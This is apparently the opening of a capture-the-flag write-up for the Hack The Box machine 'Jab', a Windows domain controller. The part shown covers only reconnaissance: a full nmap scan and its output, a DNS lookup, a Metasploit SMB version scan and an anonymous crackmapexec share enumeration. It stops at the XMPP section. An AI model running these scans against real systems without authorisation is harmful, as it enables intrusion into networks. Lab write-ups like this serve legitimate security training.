

# Jab

<figure><figcaption></figcaption></figure>

## Enumeration

```bash
nmap -v -A -p- -Pn -sV -sC jab.htb -oN nmap
```


```bash
Nmap scan report for jab.htb (10.10.11.4)
Host is up (0.11s latency).
Not shown: 65499 closed tcp ports (reset)
PORT      STATE SERVICE             VERSION
53/tcp    open  domain              Simple DNS Plus
88/tcp    open  kerberos-sec        Microsoft Windows Kerberos (server time: 2024-03-15 11:17:41Z)
135/tcp   open  msrpc               Microsoft Windows RPC
139/tcp   open  netbios-ssn         Microsoft Windows netbios-ssn
389/tcp   open  ldap                Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-03-15T11:19:10+00:00; -3s from scanner time.
| ssl-cert: Subject: commonName=DC01.jab.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.jab.htb
| Issuer: commonName=jab-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2023-11-01T20:16:18
| Not valid after:  2024-10-31T20:16:18
| MD5:   40f9:01d6:610b:2892:43ca:77de:c48d:f221
|_SHA-1: 66ea:c22b:e584:ab5e:07e3:aa8f:5af2:b634:0733:8c06
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http          Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap            Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-03-15T11:19:09+00:00; -3s from scanner time.
| ssl-cert: Subject: commonName=DC01.jab.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.jab.htb
| Issuer: commonName=jab-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2023-11-01T20:16:18
| Not valid after:  2024-10-31T20:16:18
| MD5:   40f9:01d6:610b:2892:43ca:77de:c48d:f221
|_SHA-1: 66ea:c22b:e584:ab5e:07e3:aa8f:5af2:b634:0733:8c06
3268/tcp  open  ldap                Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.jab.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.jab.htb
| Issuer: commonName=jab-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2023-11-01T20:16:18
| Not valid after:  2024-10-31T20:16:18
| MD5:   40f9:01d6:610b:2892:43ca:77de:c48d:f221
|_SHA-1: 66ea:c22b:e584:ab5e:07e3:aa8f:5af2:b634:0733:8c06
|_ssl-date: 2024-03-15T11:19:09+00:00; -3s from scanner time.
3269/tcp  open  ssl/ldap            Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-03-15T11:19:10+00:00; -2s from scanner time.
| ssl-cert: Subject: commonName=DC01.jab.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.jab.htb
| Issuer: commonName=jab-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2023-11-01T20:16:18
| Not valid after:  2024-10-31T20:16:18
| MD5:   40f9:01d6:610b:2892:43ca:77de:c48d:f221
|_SHA-1: 66ea:c22b:e584:ab5e:07e3:aa8f:5af2:b634:0733:8c06
5222/tcp  open  jabber
| ssl-cert: Subject: commonName=dc01.jab.htb
| Subject Alternative Name: DNS:dc01.jab.htb, DNS:*.dc01.jab.htb
| Issuer: commonName=dc01.jab.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-10-26T22:00:12
| Not valid after:  2028-10-24T22:00:12
| MD5:   3317:65e1:e84a:14c2:9ac4:54ba:b516:26d8
|_SHA-1: efd0:8bde:42df:ff04:1a79:7d20:bf87:a740:66b8:d966
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     unknown: 
|     capabilities: 
|     errors: 
|       invalid-namespace
|       (timeout)
|     auth_mechanisms: 
|     xmpp: 
|       version: 1.0
|     features: 
|     compression_methods: 
|_    stream_id: 18aufdozvl
| fingerprint-strings: 
|   RPCCheck: 
|_    <stream:error xmlns:stream="http://etherx.jabber.org/streams"><not-well-formed xmlns="urn:ietf:params:xml:ns:xmpp-streams"/></stream:error></stream:stream>
|_ssl-date: TLS randomness does not represent time
5223/tcp  open  ssl/jabber          Ignite Realtime Openfire Jabber server 3.10.0 or later
| ssl-cert: Subject: commonName=dc01.jab.htb
| Subject Alternative Name: DNS:dc01.jab.htb, DNS:*.dc01.jab.htb
| Issuer: commonName=dc01.jab.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-10-26T22:00:12
| Not valid after:  2028-10-24T22:00:12
| MD5:   3317:65e1:e84a:14c2:9ac4:54ba:b516:26d8
|_SHA-1: efd0:8bde:42df:ff04:1a79:7d20:bf87:a740:66b8:d966
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     capabilities: 
|     errors: 
|       (timeout)
|     auth_mechanisms: 
|     xmpp: 
|     features: 
|     compression_methods: 
|_    unknown: 
|_ssl-date: TLS randomness does not represent time
5262/tcp  open  jabber
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     unknown: 
|     capabilities: 
|     errors: 
|       invalid-namespace
|       (timeout)
|     auth_mechanisms: 
|     xmpp: 
|       version: 1.0
|     features: 
|     compression_methods: 
|_    stream_id: 5l9o0hhj9a
| fingerprint-strings: 
|   RPCCheck: 
|_    <stream:error xmlns:stream="http://etherx.jabber.org/streams"><not-well-formed xmlns="urn:ietf:params:xml:ns:xmpp-streams"/></stream:error></stream:stream>
5263/tcp  open  ssl/jabber
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     capabilities: 
|     errors: 
|       (timeout)
|     auth_mechanisms: 
|     xmpp: 
|     features: 
|     compression_methods: 
|_    unknown: 
| ssl-cert: Subject: commonName=dc01.jab.htb
| Subject Alternative Name: DNS:dc01.jab.htb, DNS:*.dc01.jab.htb
| Issuer: commonName=dc01.jab.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-10-26T22:00:12
| Not valid after:  2028-10-24T22:00:12
| MD5:   3317:65e1:e84a:14c2:9ac4:54ba:b516:26d8
|_SHA-1: efd0:8bde:42df:ff04:1a79:7d20:bf87:a740:66b8:d966
|_ssl-date: TLS randomness does not represent time
| fingerprint-strings: 
|   RPCCheck: 
|_    <stream:error xmlns:stream="http://etherx.jabber.org/streams"><not-well-formed xmlns="urn:ietf:params:xml:ns:xmpp-streams"/></stream:error></stream:stream>
5269/tcp  open  xmpp                Wildfire XMPP Client
| xmpp-info: 
|   Respects server name
|   info: 
|     xmpp: 
|       version: 1.0
|     capabilities: 
|   pre_tls: 
|     xmpp: 
|     capabilities: 
|     features: 
|       TLS
|       Server Dialback
|   post_tls: 
|     xmpp: 
|       lang: en-US
|_    capabilities: 
5270/tcp  open  ssl/xmpp            Wildfire XMPP Client
| ssl-cert: Subject: commonName=dc01.jab.htb
| Subject Alternative Name: DNS:dc01.jab.htb, DNS:*.dc01.jab.htb
| Issuer: commonName=dc01.jab.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-10-26T22:00:12
| Not valid after:  2028-10-24T22:00:12
| MD5:   3317:65e1:e84a:14c2:9ac4:54ba:b516:26d8
|_SHA-1: efd0:8bde:42df:ff04:1a79:7d20:bf87:a740:66b8:d966
|_ssl-date: TLS randomness does not represent time
5275/tcp  open  jabber
| fingerprint-strings: 
|   RPCCheck: 
|_    <stream:error xmlns:stream="http://etherx.jabber.org/streams"><not-well-formed xmlns="urn:ietf:params:xml:ns:xmpp-streams"/></stream:error></stream:stream>
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     unknown: 
|     capabilities: 
|     errors: 
|       invalid-namespace
|       (timeout)
|     auth_mechanisms: 
|     xmpp: 
|       version: 1.0
|     features: 
|     compression_methods: 
|_    stream_id: 6gd7xm5f1t
5276/tcp  open  ssl/jabber
| ssl-cert: Subject: commonName=dc01.jab.htb
| Subject Alternative Name: DNS:dc01.jab.htb, DNS:*.dc01.jab.htb
| Issuer: commonName=dc01.jab.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-10-26T22:00:12
| Not valid after:  2028-10-24T22:00:12
| MD5:   3317:65e1:e84a:14c2:9ac4:54ba:b516:26d8
|_SHA-1: efd0:8bde:42df:ff04:1a79:7d20:bf87:a740:66b8:d966
| fingerprint-strings: 
|   RPCCheck: 
|_    <stream:error xmlns:stream="http://etherx.jabber.org/streams"><not-well-formed xmlns="urn:ietf:params:xml:ns:xmpp-streams"/></stream:error></stream:stream>
|_ssl-date: TLS randomness does not represent time
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     capabilities: 
|     errors: 
|       (timeout)
|     auth_mechanisms: 
|     xmpp: 
|     features: 
|     compression_methods: 
|_    unknown: 
5985/tcp  open  http                Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7070/tcp  open  realserver?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP: 
|     HTTP/1.1 400 Illegal character CNTL=0x0
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x0</pre>
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Fri, 15 Mar 2024 11:17:41 GMT
|     Last-Modified: Wed, 16 Feb 2022 15:55:02 GMT
|     Content-Type: text/html
|     Accept-Ranges: bytes
|     Content-Length: 223
|     <html>
|     <head><title>Openfire HTTP Binding Service</title></head>
|     <body><font face="Arial, Helvetica"><b>Openfire <a href="http://www.xmpp.org/extensions/xep-0124.html">HTTP Binding</a> Service</b></font></body>
|     </html>
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Fri, 15 Mar 2024 11:17:47 GMT
|     Allow: GET,HEAD,POST,OPTIONS
|   Help: 
|     HTTP/1.1 400 No URI
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 49
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: No URI</pre>
|   RPCCheck: 
|     HTTP/1.1 400 Illegal character OTEXT=0x80
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 71
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character OTEXT=0x80</pre>
|   RTSPRequest: 
|     HTTP/1.1 505 Unknown Version
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 58
|     Connection: close
|     <h1>Bad Message 505</h1><pre>reason: Unknown Version</pre>
|   SSLSessionReq: 
|     HTTP/1.1 400 Illegal character CNTL=0x16
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 70
|     Connection: close
|_    <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x16</pre>
7443/tcp  open  ssl/oracleas-https?
| ssl-cert: Subject: commonName=dc01.jab.htb
| Subject Alternative Name: DNS:dc01.jab.htb, DNS:*.dc01.jab.htb
| Issuer: commonName=dc01.jab.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-10-26T22:00:12
| Not valid after:  2028-10-24T22:00:12
| MD5:   3317:65e1:e84a:14c2:9ac4:54ba:b516:26d8
|_SHA-1: efd0:8bde:42df:ff04:1a79:7d20:bf87:a740:66b8:d966
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP: 
|     HTTP/1.1 400 Illegal character CNTL=0x0
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x0</pre>
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Fri, 15 Mar 2024 11:17:53 GMT
|     Last-Modified: Wed, 16 Feb 2022 15:55:02 GMT
|     Content-Type: text/html
|     Accept-Ranges: bytes
|     Content-Length: 223
|     <html>
|     <head><title>Openfire HTTP Binding Service</title></head>
|     <body><font face="Arial, Helvetica"><b>Openfire <a href="http://www.xmpp.org/extensions/xep-0124.html">HTTP Binding</a> Service</b></font></body>
|     </html>
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Fri, 15 Mar 2024 11:18:00 GMT
|     Allow: GET,HEAD,POST,OPTIONS
|   Help: 
|     HTTP/1.1 400 No URI
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 49
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: No URI</pre>
|   RPCCheck: 
|     HTTP/1.1 400 Illegal character OTEXT=0x80
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 71
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character OTEXT=0x80</pre>
|   RTSPRequest: 
|     HTTP/1.1 505 Unknown Version
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 58
|     Connection: close
|     <h1>Bad Message 505</h1><pre>reason: Unknown Version</pre>
|   SSLSessionReq: 
|     HTTP/1.1 400 Illegal character CNTL=0x16
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 70
|     Connection: close
|_    <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x16</pre>
|_ssl-date: TLS randomness does not represent time
7777/tcp  open  socks5              (No authentication; connection not allowed by ruleset)
| socks-auth-info: 
|_  No authentication
9389/tcp  open  mc-nmf              .NET Message Framing
47001/tcp open  http                Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc               Microsoft Windows RPC
49665/tcp open  msrpc               Microsoft Windows RPC
49666/tcp open  msrpc               Microsoft Windows RPC
49667/tcp open  msrpc               Microsoft Windows RPC
49671/tcp open  msrpc               Microsoft Windows RPC
49674/tcp open  ncacn_http          Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc               Microsoft Windows RPC
49676/tcp open  msrpc               Microsoft Windows RPC
49681/tcp open  msrpc               Microsoft Windows RPC
49789/tcp open  msrpc               Microsoft Windows RPC
49836/tcp open  msrpc               Microsoft Windows RPC
7 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5222-TCP:V=7.94SVN%I=7%D=3/15%Time=65F42E6C%P=x86_64-pc-linux-gnu%r
SF:(RPCCheck,9B,"<stream:error\x20xmlns:stream=\"http://etherx\.jabber\.or
SF:g/streams\"><not-well-formed\x20xmlns=\"urn:ietf:params:xml:ns:xmpp-str
SF:eams\"/></stream:error></stream:stream>");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5262-TCP:V=7.94SVN%I=7%D=3/15%Time=65F42E6C%P=x86_64-pc-linux-gnu%r
SF:(RPCCheck,9B,"<stream:error\x20xmlns:stream=\"http://etherx\.jabber\.or
SF:g/streams\"><not-well-formed\x20xmlns=\"urn:ietf:params:xml:ns:xmpp-str
SF:eams\"/></stream:error></stream:stream>");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5263-TCP:V=7.94SVN%T=SSL%I=7%D=3/15%Time=65F42E7B%P=x86_64-pc-linux
SF:-gnu%r(RPCCheck,9B,"<stream:error\x20xmlns:stream=\"http://etherx\.jabb
SF:er\.org/streams\"><not-well-formed\x20xmlns=\"urn:ietf:params:xml:ns:xm
SF:pp-streams\"/></stream:error></stream:stream>");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5275-TCP:V=7.94SVN%I=7%D=3/15%Time=65F42E6C%P=x86_64-pc-linux-gnu%r
SF:(RPCCheck,9B,"<stream:error\x20xmlns:stream=\"http://etherx\.jabber\.or
SF:g/streams\"><not-well-formed\x20xmlns=\"urn:ietf:params:xml:ns:xmpp-str
SF:eams\"/></stream:error></stream:stream>");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5276-TCP:V=7.94SVN%T=SSL%I=7%D=3/15%Time=65F42E7B%P=x86_64-pc-linux
SF:-gnu%r(RPCCheck,9B,"<stream:error\x20xmlns:stream=\"http://etherx\.jabb
SF:er\.org/streams\"><not-well-formed\x20xmlns=\"urn:ietf:params:xml:ns:xm
SF:pp-streams\"/></stream:error></stream:stream>");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port7070-TCP:V=7.94SVN%I=7%D=3/15%Time=65F42E58%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,189,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Fri,\x2015\x20Mar\x
SF:202024\x2011:17:41\x20GMT\r\nLast-Modified:\x20Wed,\x2016\x20Feb\x20202
SF:2\x2015:55:02\x20GMT\r\nContent-Type:\x20text/html\r\nAccept-Ranges:\x2
SF:0bytes\r\nContent-Length:\x20223\r\n\r\n<html>\n\x20\x20<head><title>Op
SF:enfire\x20HTTP\x20Binding\x20Service</title></head>\n\x20\x20<body><fon
SF:t\x20face=\"Arial,\x20Helvetica\"><b>Openfire\x20<a\x20href=\"http://ww
SF:w\.xmpp\.org/extensions/xep-0124\.html\">HTTP\x20Binding</a>\x20Service
SF:</b></font></body>\n</html>\n")%r(RTSPRequest,AD,"HTTP/1\.1\x20505\x20U
SF:nknown\x20Version\r\nContent-Type:\x20text/html;charset=iso-8859-1\r\nC
SF:ontent-Length:\x2058\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20Message\
SF:x20505</h1><pre>reason:\x20Unknown\x20Version</pre>")%r(HTTPOptions,56,
SF:"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Fri,\x2015\x20Mar\x202024\x2011:17:
SF:47\x20GMT\r\nAllow:\x20GET,HEAD,POST,OPTIONS\r\n\r\n")%r(RPCCheck,C7,"H
SF:TTP/1\.1\x20400\x20Illegal\x20character\x20OTEXT=0x80\r\nContent-Type:\
SF:x20text/html;charset=iso-8859-1\r\nContent-Length:\x2071\r\nConnection:
SF:\x20close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20Illegal\
SF:x20character\x20OTEXT=0x80</pre>")%r(DNSVersionBindReqTCP,C3,"HTTP/1\.1
SF:\x20400\x20Illegal\x20character\x20CNTL=0x0\r\nContent-Type:\x20text/ht
SF:ml;charset=iso-8859-1\r\nContent-Length:\x2069\r\nConnection:\x20close\
SF:r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20Illegal\x20charact
SF:er\x20CNTL=0x0</pre>")%r(DNSStatusRequestTCP,C3,"HTTP/1\.1\x20400\x20Il
SF:legal\x20character\x20CNTL=0x0\r\nContent-Type:\x20text/html;charset=is
SF:o-8859-1\r\nContent-Length:\x2069\r\nConnection:\x20close\r\n\r\n<h1>Ba
SF:d\x20Message\x20400</h1><pre>reason:\x20Illegal\x20character\x20CNTL=0x
SF:0</pre>")%r(Help,9B,"HTTP/1\.1\x20400\x20No\x20URI\r\nContent-Type:\x20
SF:text/html;charset=iso-8859-1\r\nContent-Length:\x2049\r\nConnection:\x2
SF:0close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20No\x20URI</
SF:pre>")%r(SSLSessionReq,C5,"HTTP/1\.1\x20400\x20Illegal\x20character\x20
SF:CNTL=0x16\r\nContent-Type:\x20text/html;charset=iso-8859-1\r\nContent-L
SF:ength:\x2070\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20Message\x20400</
SF:h1><pre>reason:\x20Illegal\x20character\x20CNTL=0x16</pre>");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port7443-TCP:V=7.94SVN%T=SSL%I=7%D=3/15%Time=65F42E64%P=x86_64-pc-linux
SF:-gnu%r(GetRequest,189,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Fri,\x2015\x2
SF:0Mar\x202024\x2011:17:53\x20GMT\r\nLast-Modified:\x20Wed,\x2016\x20Feb\
SF:x202022\x2015:55:02\x20GMT\r\nContent-Type:\x20text/html\r\nAccept-Rang
SF:es:\x20bytes\r\nContent-Length:\x20223\r\n\r\n<html>\n\x20\x20<head><ti
SF:tle>Openfire\x20HTTP\x20Binding\x20Service</title></head>\n\x20\x20<bod
SF:y><font\x20face=\"Arial,\x20Helvetica\"><b>Openfire\x20<a\x20href=\"htt
SF:p://www\.xmpp\.org/extensions/xep-0124\.html\">HTTP\x20Binding</a>\x20S
SF:ervice</b></font></body>\n</html>\n")%r(HTTPOptions,56,"HTTP/1\.1\x2020
SF:0\x20OK\r\nDate:\x20Fri,\x2015\x20Mar\x202024\x2011:18:00\x20GMT\r\nAll
SF:ow:\x20GET,HEAD,POST,OPTIONS\r\n\r\n")%r(RTSPRequest,AD,"HTTP/1\.1\x205
SF:05\x20Unknown\x20Version\r\nContent-Type:\x20text/html;charset=iso-8859
SF:-1\r\nContent-Length:\x2058\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20M
SF:essage\x20505</h1><pre>reason:\x20Unknown\x20Version</pre>")%r(RPCCheck
SF:,C7,"HTTP/1\.1\x20400\x20Illegal\x20character\x20OTEXT=0x80\r\nContent-
SF:Type:\x20text/html;charset=iso-8859-1\r\nContent-Length:\x2071\r\nConne
SF:ction:\x20close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20Il
SF:legal\x20character\x20OTEXT=0x80</pre>")%r(DNSVersionBindReqTCP,C3,"HTT
SF:P/1\.1\x20400\x20Illegal\x20character\x20CNTL=0x0\r\nContent-Type:\x20t
SF:ext/html;charset=iso-8859-1\r\nContent-Length:\x2069\r\nConnection:\x20
SF:close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20Illegal\x20c
SF:haracter\x20CNTL=0x0</pre>")%r(DNSStatusRequestTCP,C3,"HTTP/1\.1\x20400
SF:\x20Illegal\x20character\x20CNTL=0x0\r\nContent-Type:\x20text/html;char
SF:set=iso-8859-1\r\nContent-Length:\x2069\r\nConnection:\x20close\r\n\r\n
SF:<h1>Bad\x20Message\x20400</h1><pre>reason:\x20Illegal\x20character\x20C
SF:NTL=0x0</pre>")%r(Help,9B,"HTTP/1\.1\x20400\x20No\x20URI\r\nContent-Typ
SF:e:\x20text/html;charset=iso-8859-1\r\nContent-Length:\x2049\r\nConnecti
SF:on:\x20close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20No\x2
SF:0URI</pre>")%r(SSLSessionReq,C5,"HTTP/1\.1\x20400\x20Illegal\x20charact
SF:er\x20CNTL=0x16\r\nContent-Type:\x20text/html;charset=iso-8859-1\r\nCon
SF:tent-Length:\x2070\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20Message\x2
SF:0400</h1><pre>reason:\x20Illegal\x20character\x20CNTL=0x16</pre>");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=3/15%OT=53%CT=1%CU=43050%PV=Y%DS=2%DC=T%G=Y%TM=65F4
OS:2EB7%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10A%TI=I%CI=I%II=I%SS=S%
OS:TS=U)SEQ(SP=107%GCD=1%ISR=10A%TI=I%CI=RD%TS=U)OPS(O1=M53ANW8NNS%O2=M53AN
OS:W8NNS%O3=M53ANW8%O4=M53ANW8NNS%O5=M53ANW8NNS%O6=M53ANNS)WIN(W1=FFFF%W2=F
OS:FFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=FFFF%O=M53ANW8NN
OS:S%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=
OS:Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=
OS:Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=A
OS:R%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=8
OS:0%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0
OS:%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R
OS:=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -2s, deviation: 0s, median: -3s
| smb2-time: 
|   date: 2024-03-15T11:19:03
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

TRACEROUTE (using port 993/tcp)
HOP RTT      ADDRESS
1   89.79 ms 10.10.16.1
2   45.57 ms jab.htb (10.10.11.4)

NSE: Script Post-scanning.
Initiating NSE at 07:19
Completed NSE at 07:19, 0.00s elapsed
Initiating NSE at 07:19
Completed NSE at 07:19, 0.00s elapsed
Initiating NSE at 07:19
Completed NSE at 07:19, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 607.95 seconds
           Raw packets sent: 69503 (3.062MB) | Rcvd: 67780 (2.715MB)

```


### DNS 53

```bash
nslookup                                        
> server 10.10.11.4
Default server: 10.10.11.4
Address: 10.10.11.4#53
> set type=any
> jab.htb
Server:         10.10.11.4
Address:        10.10.11.4#53

Name:   jab.htb
Address: 10.10.11.4
jab.htb nameserver = dc01.jab.htb.
jab.htb
        origin = dc01.jab.htb
        mail addr = hostmaster.jab.htb
        serial = 8241
        refresh = 900
        retry = 600
        expire = 86400
        minimum = 3600

```

### SMB 445


```bash
msf6 auxiliary(scanner/smb/smb_version) > run

[*] 10.10.11.4:445        - SMB Detected (versions:2, 3) (preferred dialect:SMB 3.1.1) (compression capabilities:) (encryption capabilities:AES-128-GCM) (signatures:required) (guid:{fa1b5447-07a9-45ff-852c-ba625d238b10}) (authentication domain:JAB)
[*] jab.htb:              - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```


Try to enumerate shares using crackmapexec:


```bash
crackmapexec smb jab.htb -u '' -p '' --shares
SMB         jab.htb         445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:jab.htb) (signing:True) (SMBv1:False)
SMB         jab.htb         445    DC01             [+] jab.htb\: 
SMB         jab.htb         445    DC01             [-] Error enumerating shares: STATUS_ACCESS_DENIED
```



### JABBER/XMPP  5222/5223/5262/5263/5269/5270/5275/5276



```
5222/tcp  open  jabber
```


```
